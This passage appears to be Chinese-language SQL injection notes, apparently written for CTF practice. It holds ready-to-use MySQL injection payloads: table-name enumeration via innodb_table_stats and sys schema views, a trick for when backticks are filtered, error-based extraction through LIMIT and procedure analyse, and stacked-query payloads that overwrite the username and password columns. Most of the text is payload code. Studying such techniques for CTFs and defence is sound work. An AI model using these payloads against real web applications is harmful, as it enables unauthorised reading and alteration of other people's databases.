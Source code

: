 ```sql
password=\&username=,username=(select group_concat(table_name) from mysql.innodb_table_stats)%23
```

因为其他库里面没有专门存储列名的，所以需要用到无列名注入。https://blog.csdn.net/qq_31620591/article/details/117067799

使用`sys.x$schema_table_statistics`

## 过滤`

当 ` 不能使用的时候，使用别名来代替：

```sql
select b from (select 1,2,3 as b union select * from admin)a;
```

## limit注入

```sql
?page=1&limit=1 procedure analyse(extractvalue(rand(),concat(0x3a,database())),1)
```

## 堆叠注入

**只有当调用函数库函数支持执行多条语句执行的时候才可以利用**


如利用mysql_multi_query()函数就支持多条SQL语句同时执行


还有Java项目的配置文件config.properties如下

```PHP
url=jdbc:mysql://127.0.0.1:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC
db_username=root
db_password=root
```

allowMultiQueries=true说明开启了堆叠

简单的介绍一下预处理语句

```sql
prepare name from SQL语句                    # 预定义SQL语句
execute name                                # 执行预定义语句
(DEALLOCATE || DROP) PREPARE name;            # 删除与定义语句
预定义语句也可以通过变量的方式来执行
SET @tn = 'table_name'                        # 储存表名
SET @sql = concat('select * from', @tn);    # 储存SQL语句    
prepare name from @sql;                        # 预定义语句
execute name;                                # 执行预定义语句
(DEALLOCATE || DROP) prepare @sql;          # 删除预定义SQL语句
```

```sql
1;update(ctfshow_user)set`username`=1;
1;update(ctfshow_user)set`pass`=1;
```
